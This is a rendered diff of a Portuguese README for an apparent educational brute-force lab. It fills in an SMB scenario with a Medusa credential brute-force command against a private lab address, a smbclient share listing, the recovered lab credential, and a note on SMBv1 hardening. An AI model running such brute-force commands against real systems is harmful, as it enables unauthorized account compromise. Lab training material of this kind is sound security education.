

Before and after one commit to Mont0303/brute-force-medusa-lab, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; pictures changed too: images/03-dvwa-login.png (added), images/04-medusa-smb.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -98,25 +104,26 @@ medusa -h <IP_DO_ALVO> -u admin -P wordlists/senhas.txt -M web-form \
 
-- **Resultado obtido**: *[A preencher após execução no seu lab]*
-- **Evidência**: `[A preencher: ![DVWA Web](images/03-dvwa-login.png)]`
+![Ataque Web no DVWA com ffuf](images/03-dvwa-login.png)
 
 ---
 
 ### 4. Cenário 3 — Auditoria de Credenciais SMB (`139,445/tcp`)
 
-O módulo `smbnt` do Medusa testa autenticação contra compartilhamentos SMB/Samba (porta `445/tcp` por padrão):
+O módulo `smbnt` do Medusa testa autenticação contra compartilhamentos SMB/Samba:
 
 ```bash
-medusa -h <IP_DO_ALVO> -U wordlists/usuarios.txt -P wordlists/senhas.txt -M smbnt -m GROUP:LOCAL -t 4 -f
+medusa -h 172.28.0.30 -U /lab/wordlists/usuarios.txt -P /lab/wordlists/senhas.txt -M smbnt -m GROUP:LOCAL -t 4 -f
 ```
 
-Após identificar uma credencial em laboratório, a validação controlada do acesso pode ser feita com:
+Em seguida, validamos o acesso ao compartilhamento `labs` com `smbclient`:
 
 ```bash
-smbclient -L //<IP_DO_ALVO> -U <usuario_encontrado>
+smbclient -L //172.28.0.30 -U samba
 ```
 
-- **Resultado obtido**: *[A preencher após execução no seu lab]*
-- **Evidência**: `[A preencher: ![Medusa SMB](images/04-medusa-smb.png)]`
+- **Resultado obtido**: `ACCOUNT FOUND: [smbnt] Host: 172.28.0.30 User: samba Password: pass123 [SUCCESS (ADMIN$ - Share Unavailable)]`
+- **Nota técnica**: servidores Samba modernos desativam **SMBv1 (`NT1`)** por padrão, o que bloqueava a negociação do `smbnt.mod` (`0xFFFFFF:UNKNOWN_ERROR_CODE`). Ao habilitar `server min protocol = NT1` no laboratório para simular um servidor legado, o ataque obteve sucesso — evidenciando na prática por que desabilitar SMBv1 é uma medida crítica de hardening.
+
+![Ataque SMB com Medusa](images/04-medusa-smb.png)
 
 ---
 
````
Also changed, not shown: other parts of README.md (+46 -38 lines), images/01-nmap-scan.png (added), images/02-medusa-ftp.png (added), 8 other files.
